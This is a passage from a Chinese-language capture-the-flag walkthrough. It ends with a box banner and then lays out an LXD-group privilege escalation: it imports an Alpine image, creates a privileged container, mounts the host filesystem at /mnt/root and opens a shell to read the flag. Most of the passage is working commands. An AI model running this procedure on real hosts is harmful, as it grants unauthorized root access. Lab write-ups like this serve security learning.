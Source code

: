 ```
    \______/  \______/        \______/ |__/|__/ |__/ |__/| $$____/ |__/ \_______/
                                                         | $$
                                                         | $$
                                                         |__/

Easy box right? Hope you've had fun! Show me the flag on Twitter @roelvb79
```

另外注意到，max 用户在 lxd 用户组，可以用 lxc 进行提权,可以用下面这个链接中的方法进行利用：https://www.hackingarticles.in/lxd-privilege-escalation/

访问 https://github.com/saghul/lxd-alpine-builder，将 alpine-v3.13-x86_64-20210218_0139.tar.gz 下载到目标机器 /tmp 目录中。

找到 lxc 的文件位置：

```
find / -name lxc 2>/dev/null

/snap/lxd/16100/bin/lxc
/snap/lxd/16100/commands/lxc
/snap/lxd/16100/lxc
/snap/lxd/16044/bin/lxc
/snap/lxd/16044/commands/lxc
/snap/lxd/16044/lxc
/snap/bin/lxc
/usr/share/bash-completion/completions/lxc
```

利用 /snap/bin/lxc 执行命令，导入镜像：

```
/snap/bin/lxc image import /tmp/alpine-v3.13-x86_64-20210218_0139.tar.gz --alias lxcimage

/snap/bin/lxc image list

/snap/bin/lxc init lxcimage ignite -c security.privileged=true  # 这句话执行时会报错，提示先创建pool，就按照下面代码继续执行

/snap/bin/lxc storage create pool dir
/snap/bin/lxc profile device add default root disk path=/ pool=pool
/snap/bin/lxc init lxcimage ignite -c security.privileged=true
/snap/bin/lxc config device add ignite trenches disk source=/ path=/mnt/root recursive=true
/snap/bin/lxc start ignite
/snap/bin/lxc exec ignite /bin/sh
```

执行完毕后，/mnt/root 目录中将挂载宿主机的全部文件，我们可以直接进入/mnt/root/root 目录查看 flag 信息。
